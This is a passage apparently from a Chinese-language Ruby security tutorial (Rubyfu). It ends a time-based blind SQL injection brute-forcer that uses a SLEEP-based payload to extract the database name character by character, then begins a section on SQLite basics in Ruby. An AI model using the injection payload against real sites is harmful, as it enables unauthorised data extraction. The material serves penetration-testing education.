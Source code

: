 ```
     puts "[*] Brute-forcing on Position: ".bold + "#{position}".green + " | ".bold + "Character: ".bold + "#{char} = #{char.chr}".green

     # Put your query here 
     query = "1\" AND IF((ASCII(SUBSTR((SELECT DATABASE()),#{position},1)))=#{char}, SLEEP(#{time2wait}), NULL)--+"

     result = send_tbsqli(url, query, time2wait)
         if result.eql? 1
           puts "[+] Found character: ".bold + "#{char.to_s(16)} hex".green

           extracted <<  char.chr
           puts "[+] Extracted characters: ".bold + "#{extracted.join}".green
           break 
         end
   end
end

puts "\n\n[+] Final found string: ".bold + "#{extracted.join}".green 
```

# 数据库

# 数据库

处理数据库是 Web 测试中必需的知识，在这里我们将介绍最常见的数据库以及如何在 Ruby 中处理它。

## SQLite

+   安装 sqlite3 gem

    ```
    gem install sqlite3 
    ```

    你必须在系统上安装 sqlite3 开发库

    ```
    apt-get install libsqlite3-dev 
    ```

+   基本操作

```
require "sqlite3"

# Open/Create a database
db = SQLite3::Database.new "rubyfu.db"

# Create a table
rows = db.execute <<-SQL
  CREATE TABLE attackers (
   id   INTEGER PRIMARY KEY   AUTOINCREMENT,
   name TEXT    NOT NULL,
   ip   CHAR(50)
);
SQL

# Execute a few inserts
{
  'Anonymous'    => "192.168.0.7",
  'LulzSec'      => "192.168.0.14",
  'Lizard Squad' => "192.168.0.253"
```
